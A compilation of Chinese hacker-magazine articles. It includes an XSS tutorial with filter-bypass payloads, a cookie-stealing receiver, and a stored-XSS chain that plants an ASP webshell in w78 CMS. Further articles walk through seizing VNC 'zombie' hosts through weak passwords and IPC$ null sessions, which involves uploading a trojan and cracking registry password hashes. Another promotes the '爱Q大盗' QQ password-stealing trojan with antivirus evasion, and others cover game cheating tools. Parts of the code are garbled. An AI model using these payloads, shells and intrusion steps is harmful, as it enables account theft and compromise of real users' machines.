我们把一张名为1.jpg的图片放到网站根目录下（访问地址为 http://127.0.0.1/1.jpg），然后再把 `<body>` 和 `</body>` 之间的跨站测试代码换成 ``，刷新一下1.html，对话框又出来了，如图8。


`onload` 事件是文档、图像或对象完成加载时触发，因为 http://127.0.0.1/1.jpg 是真实存在的，顺利完成加载后就执行了 onload 事件。`onerror` 事件是在文档、图像或对象加载失败时触发，我们把跨站测试代码改为 ``，因为5.jpg根本就不存在，加载失败，所以正好触发了 onerror 事件，又弹出了对话框，如图9。再把跨站测试代码换成 ``，刷新一下1.html，对话框又出来了，如图10。


我在网上又找到了一些可以弹出对话框的跨站测试代码，并且在 1.html 中测试成功，代码为：

```html
<div style="left:expression(alert(XSStest))">
<div style='left:exp/**/ression(alert(XSStest))'>
```

另外还有一些跨站测试代码，在 IE7 下测试时弹不出对话框，但在 IE6 下可以顺利弹出对话框：

```html

</img>
</img>
```

代码 `` 在 IE6 下顺利弹出了对话框，如图11。

首先被过滤，过滤代码类似如下：

```text
replace(str,"<","&#x3C")
replace(str,">","&#x3E")
```

Html 支持 `&#ASCII` 这样的编码，其功能与 Html 代码是一样的。ASCII 码还可以表示成各种进制，“<” 的 ASCII 码是 60，表示成十六进制就是 x3C，上面过滤代码中就是使用十六进制表示的，因此上面的过滤代码还可以写成：

```text
replace(str,"<","&#60;")
replace(str,">","&#62;")
```

如果过滤了“<”和“>”，我们就不能随意构造自己的 Html 标记了。不过很多时候我们输入的数据在显示时已经处在标记中了，比如论坛的自定义头像本身就处在类似 `</img>` 标记中，还是有机会绕过过滤的。下面我就介绍几种绕过过滤的方法：

- 1. 过滤了关键字 javascript（以下绕过过滤的方法在 IE7 下看不到效果，在 IE6 下能看到效果，因此使用 IE6 来进行演示）

既然过滤了 javascript，那么 `` 就不能使用了。我们在 javascript 关键字中间按 Tab 键插入一个制表符，比如在 v 字母后面按 Tab 键，跨站代码就变成了 ``，使用 IE6 打开，又弹出了对话框，如图12。

## 六、绕过过滤继续跨站

- 2. 过滤了空格

在跨站测试代码 `` 中存在空格，如果过滤了空格该怎么绕过呢？可以使用 `/**/` 来替换空格，这利用了脚本里的注释会被当作一个空格来处理的原理。我们把跨站测试代码变为 ``，刷新一下，又看到了弹出框，如图13。

很多程序考虑到了不对用户提交的数据进行过滤所带来的危害，于是就开始采取一些过滤措施。但是如果过滤简单、不是很严格的话，那我们还是可以通过一些方法绕过过滤来继续跨站。前面我已经说过跨站脚本攻击漏洞实质上是 Html 的注入问题，Html 是标记语言，作为 Html 标记语言重要组成部分的“<”和“>”很可能……

绕过各种过滤的方法应该还有很多。由于我也是刚开始接触跨站漏洞，知道得太少，就只给大家介绍上面的两种。如果大家要深入了解和学习的话，可以自己查找一下相关资料。

能做的绝不仅仅是弹出一个对话框，利用跨站漏洞可以在网页中插入任意代码，这些代码的功能包括获取网站管理员或普通用户的 cookie、隐藏挂马、添加新的管理员、修改管理员密码等。只要 Html 代码和脚本代码能够实现的功能，跨站攻击都能做到，因此跨站攻击的危害也是非常大的，而且近几年来跨站攻击也越来越流行。利用跨站漏洞还可以写成蠕虫，一天就可能影响到几百甚至上千万台电脑。

写蠕虫我不会，就给大家介绍一下利用跨站漏洞来获得 cookie 的方法吧。还是使用嘉里大通网站的跨站漏洞进行演示，打开跨站网址后在浏览器的地址栏中输入“javascript:alert(document.cookie)”就看到了当前的 cookie，如图16。

把这个 cookie 发送到指定的地址并保存起来就行。首先我们需要一个接收发送过来的 cookie 的文件，这个文件可以是 asp 文件、php 文件、cgi 文件等，另外还需要相应的空间支持。比如我们要使用 asp 文件来接收发送过来的 cookie，就需要有一个支持 asp 的空间来放置接收文件。我使用的是 asp 文件，名为 jieshou.asp，是利用 xxbing 写的一个接收文件稍微修改而来的，代码如下：

## 七、一些跨站实例

为了让大家对跨站漏洞有个更直观的认识，我给大家举几个实例，都是最近被人公布的跨站漏洞。

- 1. **Discuz! 7.2 论坛的跨站漏洞**

我在虚拟机的 PHP 环境下把存在跨站漏洞的 Discuz! 7.2 论坛安装了起来，登录后点击“个人中心”来到个人资料查看和修改页面，在“自我介绍”中输入以下代码 `[email=xx2"xss=菜鸟学堂跨站测试！ onmouseover=alert(xs) ]test[/email]`，点击“预览”按钮后 test 字符串就会出现在输入框上方，当鼠标从 test 上移过时就弹出了对话框，如图14。

- 2. **百度的一个跨站漏洞**

我们直接打开链接 `http://support.baidu.com/?module=admin&controller=error&message=XSStest`，显示如图15所示，在页面上显示了我们控制的代码 XSStest。虽然没有弹出对话框，但网上很多人说这也是跨站漏洞，我也就这么认为了，如果有错的话还请大家指正。

## 八、为什么要学习跨站

跨站作为一个技术，我们为什么要学习它呢？通过跨站漏洞……

```asp
<%
cookie=request("cookie")
path=date() // 路径我取的是日期，有时候帐号密码多了，会造成很大的txt文件。
```

```vb
if cookie<>"" then
  call Createfile(cookie)
end if

Sub CreateFile(cookie)
  Dim fso, tf, cf
  Set fso = CreateObject("Scripting.FileSystemObject")
  Set tf = fso.openTextFile(server.mappath("test/" & path & ".txt"), 8, True, True)
  tf.WriteLine("Testing 1,2,3")
  tf.WriteBlankLines(3)
  xinxi = split(xinxi, "|")
  For Each srs In xinxi
    tf.Write "<br>"
  Next
  tf.Write "cookie:" & cookie & "<br>"
  tf.Close
  set fso = nothing
End Sub
```

访问 `www.kerryeas.com/.../client_enquiry_2a.html` 页面，输入包含 `window.open(...?cookie='+document.cookie)` 的脚本进行查询，浏览器提示拦截弹出窗口；允许后在网站根目录下 test 文件夹生成记录 cookie 的文件，记录了多次 cookie（如图18）。

图注：图18

> “得到了 cookie 又有什么用呢？”

“如果网站程序存在 cookie 欺骗漏洞，你又得到了管理员的 cookie，那么就可以利用 cookie 欺骗进入后台。有的 cookie 中保存了用户名、密码等敏感信息……利用持续性跨站得到管理员 cookie 还是非常有价值的。”

代码的作用是把接收到的 cookie 以日期为文件名保存到 test 目录。将 `jieshou.asp` 放到网站根目录并测试：访问 `http://127.0.0.1/jieshou.asp?cookie=...` 可在 test 下生成文本文件，记录提交内容（如图17）。

图注：图17

如何通过跨站漏洞把 cookie 发送到接收文件？可使用类似 `<script>window.open('http://127.0.0.1/jieshou.asp?cookie='+document.cookie)</script>` 的跨站代码。实际使用时将地址替换为目标接收站点域名与文件名，并调整变量名。

## 九、跨站实际利用一例

为进一步说明跨站利用，文中给出一个利用跨站漏洞拿 shell 的案例：`w78` 企业网站管理系统（简体中文单语版）v1.1，且该程序还存在 SQL 注入漏洞。

`w78` 系统在留言提交与后台查看处过滤不足，导致跨站脚本可被存储并在后台触发。示例中通过“我要留言”提交带脚本的标题/内容，管理员在“留言管理”中查看时弹出对话框（后续见图19、图20）。

怎么利用这个跨站漏洞拿到 shell 呢？我们先来看一下后台的功能。看到了后台有备份数据库功能，可以把数据库备份成 .asp 后缀的文件，通过在“添加新闻”中上传插入了一句话代码的图片文件，然后再通过数据库备份把上传上去的图片备份成 .asp 后缀的文件来获得 webshell。

因为要经过上传和备份两步才能得到 webshell，利用跨站完成这两步比较麻烦，看看后台能不能找到只需要操作一步就能获得 shell 的方法。我发现 w78 企业网站管理系统 v1.1 的数据库保存在相对子网站根目录的 data 目录下，名字为 `#sze7xiaohu.mdb`，文件后缀是 .mdb。虽然文件名中有一个 #，但明眼人一看就知道可以下载数据库，把 # 转化为 URL 编码 `%23`，提交 `http://127.0.0.1/data/%23sze7xiaohu.mdb` 就可以下载数据库了，如图21。

下载数据库后就可以找到管理员的用户名和密码，当然密码是经过 MD5 加密的（32 位），如果能够破解出密码的话就可以登录后台拿 webshell 了。不过今天我们讲的是跨站漏洞的利用，所以不使用这种方法，再说密码也不一定能够破解出来。因为数据库是 .mdb 后缀，数据库很自然地没有防下载保护，也就是说我们可以向数据库中插入 asp 一句话木马，在后台把数据库备份成 .asp 后缀的不就能获得 webshell 了吗？马上来验证一下。首先找到能向数据库中提交数据的地方，留言的地方可以，我发现还有个“在线订购”，可以在线订购货物。在“备注”中输入我们的 asp 一句话代码 `产品<%eval request("x")%>`，其它的可以随便填写，如图22，点击“提交订单”后提示订单提交成功。打开数据库文件，发现一句话代码已经插入到数据库中了，如图23。

图19

图20

图22

图21

图23

下面来备份数据库，点击“备份数据库”来到数据库备份页面，当前数据库路径保持默认的“/data/#sze7xiaohu.mdb”，备份数据库名称写 test.asp，如图24，点击“确定备份”进行备份。现在生成的备份文件为 test.asp.mdb，再来备份一次，备份数据库名称还写 test.asp，备份后 test.asp 就生成了。生成的备份文件在 `admin\Databackup\` 目录下，test.asp 的访问地址为 `http://127.0.0.1/admin/Databackup/test.asp`，使用 Jake2 的 eval 最小马连接，成功得到了 webshell，如图25。关于数据库需要备份 2 次才能是 asp 后缀的问题，经过我测试，只有第一次备份数据库是这样。比如我备份出 test.asp 备份了 2 次，但再想备份出 test6.asp 时，只需要备份一次就可以生成 test6.asp 了。

现在利用跨站漏洞拿 shell 的思路已经有了：先通过提交订单把一句话木马提交到数据库中，然后利用跨站漏洞让管理员查看留言时来帮我们备份出 webshell。我把数据库备份成了 test6.asp，使用 WinSock Expert 对备份过程进行抓包，备份完成后抓到了一个 POST 数据包，如图26。

抓到的数据如下：

```http
POST /admin/Manage_backup.asp?action=Backup HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*
Referer: http://127.0.0.1/admin/Manage_backup.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.2; .NET CLR 2.0.50727)
Host: 127.0.0.1
Content-Length: 73
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDCSBDTACC=...

DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp
```

对我们有用的两段数据是“`/admin/Manage_backup.asp?action=Backup`”和“`DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp`”。下面想办法利用跨站漏洞重发送这个 POST 数据包，用到的是 js 文件，借鉴了相关文章中的方法，针对该站点做了修改后可用的 js 代码如下：

```javascript
var request = false;
if(window.XMLHttpRequest){
    request = new XMLHttpRequest();
    if(request.overrideMimeType){
        request.overrideMimeType('text/xml');
    }
} else if(window.ActiveXObject){
    var versions = ['Microsoft.XMLHTTP','MSXML.XMLHTTP','Microsoft.XMLHTTP','Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0','Msxml2.XMLHTTP.4.0','MSXML2.XMLHTTP.3.0','MSXML2.XMLHTTP'];
    for(var i=0; i<versions.length; i++){
        try{
            // ...
        } catch(e) {}
    }
}

request = new ActiveXObject(versions[i]);
} catch(e) {}
}
}
xmlhttp=request;
getshell();
function getshell(){
  var postStr='DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp&action=Backup';
  xmlhttp.open("POST","/admin/Manage_backup.asp", true);
  xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  xmlhttp.setRequestHeader("Content-length",postStr.length);
  xmlhttp.setRequestHeader("Connection","close");
  xmlhttp.send(postStr);
}
```

大家注意看，删除之前抓包生成的 test6.asp，点击“在线留言”，留言标题就写“你好”，留言内容就写“请问你们的产品买多了可以便宜吗？我搞批发的，可以的话电话联系，电话：110<script language="javascript" src="http://127.0.0.1/1.js"></script>”，如图27。点击“提交留言”后就等着管理员在后台看你的留言吧，管理员在后台看到的留言如图28所示。

图28

图27

其中“`DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp&action=Backup`”就是抓包抓到的数据“`DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp`”和“`/admin/Manage_backup.asp?action=Backup`”的组合。一开始我没写“action=Backup”，结果测试不成功；把“action=Backup”加到 DBpath 前面测试也不成功。后来尝试了“`DBpath=%2Fdata%2F%23sze7xiaohu.mdb&bkfolder=Databackup&bkDBname=test6.asp&action=Backup`”的组合，终于测试成功了。`xmlhttp.open("POST", "/admin/Manage_backup.asp", true);` 中的“`/admin/Manage_backup.asp`”是数据库备份文件的相对路径。把上面代码保存到一个名为 1.js 的文件中，把 1.js 放到一个支持 asp 的网站空间中，这里我还是放到了虚拟机里的网站根目录下，访问地址为 `http://127.0.0.1/1.js`。到了利用跨站漏洞拿 webshell 的关键地方了。

看起来很正常（就是联系电话有点儿不靠谱 =。=），但是实际上管理员已经帮我们备份出了 test6.asp，如图29。连接 `http://127.0.0.1/admin/Databackup/test6.asp` 就可以得到 webshell 了，如图30。

图29

图30

其实跨站还有很多可以做的，比如利用跨站找到网站的后台目录等，因为时间关系，这里就不细讲了。巧妙地利用跨站漏洞，可以说没有做不到，只有想不到。

今天给大家介绍了关于跨站的一些简单知识。由于我也是刚开始接触跨站，难免会有理解错误或概念不清的地方，还请大家发现后指正。希望大家都能学会跨站漏洞的利用，在安全检测中多一种方法。最后祝工作的、学习的、暂时还没找到工作的朋友五一快乐！

> （文章中所用到的 wsockexpert、1.html、1.js、jieshou.asp、w78 企业网站管理系统（简体中文单语版）v1.1 已收录到光盘中）

# 手把手教你

### 5900端口入侵抓肉机


关于通过5900端口抓肉机的方法比较冷门，用户们通常疏于防范，因此利用这种方法抓肉机的成功率非常高。如果我们使用扫描工具扫描到了开启5900端口的电脑，就说明它安装了VNC（Virtual Network Computing）服务，就可以尝试使用本文所介绍的方法来抓一些VNC肉机了！

### 一、抓VNC肉机的方法

VNC是一套免费的远程控制软件，由VNC Server及VNC Viewer两部分组成，可分别安装在不同的操作系统中。某电脑安装了VNC Server后，客户端就可以通过浏览器或VNC Viewer连接VNC Server并对该电脑进行远程控制。不过VNC在连接远程电脑时，在客户端需要输入正确的用户名和密码后才能登录服务端并进行远程控制，因此只有破解了VNC的连接密码，才能抓取VNC肉机！目前抓取VNC肉机主要有以下两种方法：一种是弱口令法，即使用VNC扫描器来扫描那些存在弱口令的VNC主机作为入侵目标；另一种就是IPC$空连接法。当然使用Scanarator等软件挂字典暴力破解VNC密码也是可行的，但不建议大家使用。


需要提醒大家的是，电脑中安装的杀毒软件会查杀本文中所提到的软件，因此在具体操作前需要关闭杀毒软件的监视和主动防御功能。比如我们关闭KV2009的这些功能，方法就是右键点击系统托盘区的KV2009图标，在右键菜单中勾选“关闭所有监视”，不勾选“主动防御”，如图1。


接下来按任意键后就开始自动扫描了，如图3。扫描完毕后，在该软件的saveip目录下就会生成一个以当前日期和时间命名的txt文件，里面保存的IP就是扫描到的空口令VNC主机。


最后双击打开VNC connect.exe，在“Server”栏中输入扫描到的空口令VNC主机的IP地址（例如218.22.7.69），如图4，然后点击“OK”按钮。此时就会弹出一个窗口，我们在Password中不输入任何内容，直接点击“OK”就可以登录远方的VNC主机了，抓取肉机成功！

### 二、弱口令法来抓VNC肉机

这个方法需要使用VNC扫描器扫描一个IP段，注意这个IP范围不要设置得太大，否则扫描时间会很长。在扫描到存在弱口令的VNC主机后，再使用VNC连接器连接上去抓肉机就OK了！常用的VNC扫描器主要有5900VNC全自动多段弱口令扫描器、领域小组专版VNC扫描器，下面我就来介绍一下它们的用法。

- 1. 使用5900VNC全自动多段弱口令扫描器

打开下载回来的软件，双击XP扫描专用.bat，此时就会自动打开一个名为ip.txt的文本文档，我们输入想要扫描的IP段（可以填写多行IP段），其格式为：`<起始IP> 空格 <结束IP>`，比如“218.22.1.134 218.23.255.255”，然后就可以保存并关闭该文本文档了，如图2。


- 2. 使用领域小组专版VNC扫描器

打开下载回来的软件，双击“领域小组专版VNC扫描器.exe”。需要大家注意的是，下载回来的软件不要解压缩，否则会无法运行，如图5。接下来就会弹出软件主界面，输入想要扫描的IP或IP段，我们可以从网上下载“全球IP段.txt”，扫描的IP段就可以参考它。记住扫描范围不要太大，否则会花费很长时间。比如我们在“开始IP”栏填写218.22.80.134，“结束IP”填写218.22.255.255，点击“扫描”按钮后，就开始自动扫描了……

点击“保存扫描结果”按钮，就会弹出一个文本文件，里面有几行IP，IP的右边会有一些单词，比如 `vnc4:patched`、`vnc4:banned`、`vnc4:vulnerable` 等，注意只有 `vnc4:vulnerable` 的IP才能使用VNC连接器远程登录，如图7。


如果扫描到了有 `vnc4:vulnerable` 的IP，就可以点击“连接”按钮，会弹出VNC Viewer界面，在“Server”栏中输入该IP地址；点击“OK”就可以登录远方VNC主机了，如图8。另外我们在下载包中双击“crst-vnc.exe”就会启动crst专用VNC浏览器，使用它也可以登录远方VNC主机。


### 三、IPC$空连接漏洞法抓VNC肉机

如果远方VNC主机存在IPC$空连接漏洞，比如有c$、d$、e$……以及系统目录Winnt或Windows（也就是admins）共享了，那么我们还可以通过IPC$空连接来登录该机，然后读取其注册表中的VNC密文来得到VNC连接密码。注意一旦肉机关了ipc$共享，就不能与之建立IPC$连接了。

### 1、IPC$空连接登录肉机

我们在本机的CMD命令提示符下输入：`net use \\肉机IP\ipc$ "" /user:""`，也就是建立与肉机的IPC$空连接；`net view \\肉机IP` 查看肉机共享资源情况；`copy reg.exe \\肉机IP\c$`，将注册表编辑器上传到肉机的C盘下。

### 2、读取肉机注册表中的VNC密文

在肉机上打开注册表编辑器并读取VNC保存在注册表中的密文，或者在本地电脑打开regedit注册表编辑器，选择“连接远程注册表”，输入肉机IP地址，查看其 `HKEY_CURRENT_USER\Software\ORL\WinVNC3\Password` 或者 `HKEY_CURRENT_USER\Software\Realvnc\WinVNC4` 下的字串值（比如“2F 98 1D C5 48 E0 9E C2”），如图9。


如果 `reg.exe` 无法上传到肉机上，我们还可以执行下面的操作：`net use g: \\x.x.x.x\inetpub`，就是把远程主机的Inetpub目录映射成本地的g盘。然后可以使用janker的winshell5.0直接生成server.exe服务端文件，再执行 `copy d:\server.exe g:\scripts`，将生成的木马服务端文件上传到肉机的Inetpub\scripts目录下，执行 `Net time \\肉机IP` 查看肉机当前时间，`At \\肉机IP 20:51 c:\inetpub\scripts\server.exe`，设置在某个时刻启动肉机上的木马。

```bash
net use g: \\x.x.x.x\inetpub
copy d:\server.exe g:\scripts
Net time \\肉机IP
At \\肉机IP 20:51 c:\inetpub\scripts\server.exe
```

最后再使用telnet远程连接到木马，再执行以下命令导出注册表中的VNC密码键值：`regedit /e xhacker.reg HKEY_CURRENT_USER\Software\ORL\WinVNC3`，然后再执行 `type xhacker.reg`，把类似“`Password`=hex:2F,98,1D,C5,48,E0,9E,C2”的内容记录下来。

```bash
regedit /e xhacker.reg HKEY_CURRENT_USER\Software\ORL\WinVNC3
type xhacker.reg
```

### 3、得到VNC密码

在命令提示符下运行 `x4.exe -W`，注意W要大写。然后输入上面从注册表中得到的VNC密文，每个十六进制输完后要按一次回车，直到输完8个值，VNC的密码就会显示出来了，如图10。最后使用VNC Viewer就可以连接远程肉机，抓取VNC肉机成功！


> （文章中涉及到的5900VNC全自动多段弱口令扫描器、领域小组专版VNC扫描器、全球IP段.txt、vncx4，已经收录在了光盘中）

# QQ空间套装免费拿

cphoenix

看着别人装扮得非常炫丽的QQ空间，心里非常羡慕。只可惜那些装扮饰品都是需要花钱才能得到的。这天正好在网上看到了腾讯推出的一个活动，可以免费得到一个套装，任何人都可以参加。

我们打开活动网址“http://8.qq.com/act/qzone/”，点击“立即领取”，如图1，就会弹出QQ登录界面。我们登录进去后，会提示我们不是网吧达人，要先注册后才能领取。我们点击下方的“立即注册”按钮，在注册的时候可以不必填写真实信息，填完后记得还要上传头像才行，如图2。我们可以提交自己的真实照片，也可以到百度上搜索一张照片进行提交，过不了多久系统就会通知你，你的头像已经通过审核。接下来，我们再找三个好友给你评价，有三个好友评价后就可以返回活动页面领取三个月的Qzone精美套装“羡世情人”了。


图1


图2


图3


图4

这个套装是网吧达人的特快礼品，在QQ商城里是没有的，套装包括了一个开场动画、一个导航、一个背景皮肤、一个网吧达人挂件等。领取套装后，我们进入QQ空间，点击“装扮空间”——“我的装扮”——“物品管理”，找到套装“羡世情人”，点击套装后保存即可，如图3。来看看使用后的效果吧，还是挺漂亮的，如图4。

这个套装是没有播放器的，而没有播放器的空间也是不完美的。腾讯提供的播放器确实不怎么好看，用了就太对不起这个套装了。在此我就为大家提供一个透明播放器，将下面的代码复制到浏览器地址栏里，回车打开保存即可。因为是透明的所以我们是看不到的，不过它确实存在。这样我们就可以使用这个播放器来搭配任何空间装扮了。

```javascript
javascript:window.top.space_addItem(6,676,1899,0,200,200,0);
```

# QQ农场牧场反封战

hx小龙（白雪龙）


QQ是一个百谈不厌的话题，因为它总是推陈出新，让我们时刻充满了乐趣。今天我就给大家带来了一些QQ农场和牧场的经典玩法，让每个小菜都能成为超级玩家，让他们再也不惧怕腾讯。

工具猫迷你QQ农牧场2.0是继QQ牧场开通滞后后又一款使用方便并且功能全面的外挂工具。它登录后的界面如图1所示，我们先来看第一个功能，也就是“工具猫开通”，其实这个也就是大家所熟悉的QQ牧场开通群的前身了……

第二个功能是“Q校友开通”，也就是开通QQ校友图标，打开后填写相关信息，点击确认前进就可以成功开通了。第三个功能是“Q空间开通”……第四个功能是“农场排行榜”，可以按照金币、农作物、经验等来排名……第五和第六个功能“进被封农场”“进被封牧场”就是本文重点。


图1


图2


图3


图4

至于点亮QQ牧场，依然是有时间限定的，而且服务器容量也是有限的，所以大家一定要选择好时间去点亮自己的牧场。下面是我从网上收集的腾讯每日发放牧场开通资格的时段：晚上只有9点、10点，仅有1分钟；凌晨1点是5分钟，凌晨2点是10分钟，凌晨3点到6点是半个多小时。

我再和大家分享一个QQ农场的小bug，当我们的金币为零时，再去偷取有狗粮的玩家作物，即使被捉到，也不会再被扣金币。其实这是因为QQ农场没有负金币这一说。

此外为了应对QQ农场降级，我也为大家收集了几条实用性较大的防降级、增强偷取效果的小技巧。

### 防降级技巧：

- 1. 在偷取过程中严禁使用除草等破坏功能。
- 2. 在偷取过程中严禁进入农场。
- 3. 挂机期间出现验证码应尽快输入，时间不宜拖太久。
- 4. 如果不慎连出验证码，先关闭辅助软件并打开空间刷新后再进；若还无效，可暂时停用20分钟。
- 5. 购买装饰与刷草可在当天同时使用，但切记不要一天刷多级，以免升级太快而被降级，建议一天刷一级，且升级后的经验不超过200点。

### 增强偷取效果的技巧：

- 1. 每天开机时最好先使用360、优化大师等工具清理电脑垃圾文件，保持最佳运行状态。
- 2. 开外挂之前先登录QQ，打开空间及校友刷新一下好友。
- 3. 校正本机时间，使之与腾讯服务器时间吻合。
- 4. 开外挂期间尽量避免迅雷、BT等P2P下载软件，以免拖慢摘取速度；频繁操作会被系统列入扫描对象甚至黑名单。
- 5. 强行偷有狗的农田时，系统会自动检测偷取频率，过高会发送警报提示给腾讯。
- 6. 最危险时段为凌晨1-2点、早上8-9点、下午15-16点、晚上19-20点。

最后我再来总结一下降级的重点——多线操作。所谓多线操作就是外挂偷取过程中在同一秒钟对多个好友同时操作。一个人的速度不可能在极短时间内对多个农场同时操作，外挂不同的操作经验，结局也是不一样的哦！

忘了提醒一下大家，如果你使用的系统是Vista或者Windows 7，请以管理员身份来运行软件（否则会提示错误），如图5。


图5

> （文章中所用到的工具猫迷你QQ农牧场2.0已收录到光盘中）

# 万般神器，将疯狂盗Q进行到底

hx小龙（白雪龙）


目前的QQ木马也是层出不穷，今天我就给大家带来了一款堪称完美的QQ木马，它就是“爱Q大盗”，目前最新版本为v9.0 sp5。该软件只有1.9M大小，能够兼容QQ2008和QQ2009（含2009各版本及2010体验版），可以准确获取QQ账号和密码……

接下来我介绍一下这款木马的简单使用。双击运行“爱Q大盗”的生成器文件，在“收信箱”与“发信箱”处填写自己的QQ邮箱账号，再填写邮箱用户名与密码即可（邮箱需开启POP3/IMAP/SMTP服务）……


我们点击“测试发信”，然后登录自己设置的邮箱，可以看到测试信已经到达。此时点击“生成木马”按钮来生成服务端……


这款木马强于其它木马的地方，在于其反启动、反杀毒与更新迅速等，真正做到了“马”在手盗Q不愁。为了更好地使用，还可给生成木马加壳进行免杀……


> 文章最后，我又给小菜们收集了一些关于这款木马的常见问题及解答：

问：为什么测试收信成功，但具体收信失败？  
答：可能是服务端未成功运行或被查杀；也可能收信箱被加入黑名单。

问：不小心中了爱Q大盗，怎么清除，支持其它系统吗？  
答：作者声称拒绝透露清除方法；版本兼容Windows 7和Vista。

问：生成的木马可以加别的壳吗？  
答：可以，建议使用UPX等并注意额外资源。

（文中涉及到的爱Q大盗V9.0 sp5、灰色按钮专家易语言版、蚂蚁加壳工具，已经收录在了光盘中）

# QQ农场，枪手炮，炸死菜鸟——“软”打尽！


近日同学们都在嘲笑我，除了QQ农场等级比他们高之外，其他都很菜，还都鄙视我用外挂。其实我很鄙视腾讯，自从QQ农场推出以来，我的很多同学都不学习了，天天沉迷其中。今天我就来教大家，介绍一个绝密武器，它就是我至爱的法宝——黑莓QQ军刀，军刀中的战斗刀。

# QQ宝典

首先我们来看一下黑莓QQ军刀2009的主界面，如图1所示，给我的第一个感觉就是简洁，主要功能和模块布置都很合理，而且功能选项也都是可以自由勾选的，非常容易上手。


接下来我再介绍一下小菜们比较关注的QQ农场功能和抢车位功能。我们点击左侧的QQ农场，按照自己土地状况选择好相应项目，点一下执行，所有操作就都交给军刀来完成吧。手动偷取和处理农场有点儿麻烦，但是相对也很安全，大家也可以配合我之前介绍过的QQ农夫来使用，效果还是相当好的。

我们在上方可以看到“切换账号自动更新的数据”这行字，在它下面就是小菜们最喜爱的QQ游戏了，包括“抢车位”“好友买卖”“奴隶PK角斗场”“开心农场”“浪漫玫瑰花园”等。把自己需要的都勾选上，然后登录QQ就可以在左侧应用程序中进行相关操作了。双击左侧你想作为大号来使用的QQ号码，软件就会自动切换账号并更新数据，我们在左上角的“已登录列表”中可以查看到，红色就代表当前选用的大号。


抢车位的操作也大同小异，如图4。我主要来介绍一下自动回停功能，这是军刀的一大亮点。首先我们要设置好脚本，如图5。在QQ号码处填写我们的大号，触发时间也就是脚本执行时间，可以设定为平时我们挂机的时间，中间使用逗号分隔开，比如09:00,15:00这样就可以了。勾选上“是否贴条”，在“被贴车辆是否回停”处也打上勾，在“过渡停车场”处填写我们的小号，再把停车场QQ号输入进去，多个QQ号使用逗号分隔开，在右侧把自己大号的车辆选择好。这样一旦我们的大号被贴，或者小号被大号贴了后，就能自动先停到过渡停车场，15分钟以后又可以自动回停过来，我们的大号就可以继续贴小号，这样金钱也就源源不断地来了。

下面再来看一下大号和小号的功能。在“大号应用”中我一般都是全选的，然后在“小号应用”的“对方QQ账号”后面填写自己的大号QQ号码，并在“小号应用”中把自己想给大号刷的项目全打上勾。比如我想刷空间访问量和赠送鲜花玫瑰，只要把相应项目勾选上，然后选择自己所使用的小号（可同时多选），点鼠标右键，选择执行小号应用就可以了。我们来看一看效果，如图2、图3所示，一会儿就刷上去了。一个小号可以给大号刷100点访问量，我只用了7个小号，当然你也可以使用更多，反正越多刷得越快，大家可以自行选择。

最后我再介绍一下好友买卖。在凌晨的时候，我们只要在图1中的账号管理页面中勾选上开通好友买卖（或者抢车位等），然后选择自己的小号点右键，执行一下小号应用，就能迅速地开通多个小号了。在军刀的好友买卖中，完全是一键式操作。


图5


图6


图7

一下“讨好主人”和“执行”按钮就可以了，如图6。在默认情况下奴隶是全选的，“折磨”和“安抚”的方式只能选择最高级别，非常方便。我们只需轻轻一点就能解决繁冗的操作了，就连奴隶PK也都是如此的简单。购买奴隶的话就更简单了，在“我买得起的人”那里，只要双击你想购买的奴隶的名字，再给奴隶起个绰号，就能购买完毕了，是不是很方便呢！

军刀中还收录了浪漫玫瑰花园的采摘和种植，我们只要切换到浪漫玫瑰园地，勾选上“播种”“翻地”或者“收割”选项，点一下“执行”就能自动地收获了，如图7。另外还有空间珍藏阁、好友印象、综合查询、城市达人搜索等等实用的功能，在此就不一一列举了，相信聪明的读者们应该一看就会，在此就不进行详细的说明了。

另外该软件还具备另类扫号功能，我们只要将QQ号和密码以“123456---000000”的形式保存在文本文档中，然后再点鼠标右键选择导入账号，就能实现多号码快速登录，也就能达到另类扫号的目的了。

好了，关于软件的使用方法就暂时介绍到这里，希望各位朋友玩得开心。如果有什么不明白，或者有新发现和新玩法的朋友，也欢迎来论坛一起讨论交流！

# 简单获取QQ农场作物ID


在QQ农场圣诞节活动时，推出了一个新的作物——圣诞树！

很多小菜都开通了QQ农场，并且使用了外挂QQ伴侣。QQ伴侣有一个非常重要的配置文件（system.ini），里面记载着QQ农场作物的相关信息，而QQ伴侣就是根据其中的配置信息来读取出农场作物的信息，如图1。

而当时的QQ伴侣并没有更新作物的ID信息，因此根本就读取不出好友的圣诞树，自然也就更谈不上偷了。

于是我家小姐就给我下了命令，要我守着农场，要偷某某的圣诞树，还要自己的不能被别人偷，要是完成不了就有我好看的。这个任务可实在是够艰巨的，我想了想，总不至于睡在农场里等菜成熟吧？既然所有的作物都有ID，那我把它找出来不就可以用外挂刷了吗？有了思路就好办了，对于捕捉网页ID，当然使用我们的抓包高手——WSockExpert了。

本文所介绍的方法主要是教大家在外挂没有更新作物信息时，如何自己手工更新，来达到提高偷菜效率的目的。我们以圣诞树为例来进行介绍，其它的作物也是一样的。

# QQ宝典

打开自己的QQ农场，然后打开WSockExpert，点击第一个图标，并从列出的进程中找到QQ空间的进程，点击“打开”就开始监视农场了，如图2。返回到农场中，打开仓库，找到圣诞树，点击左键，然后卖出一粒，如图3。


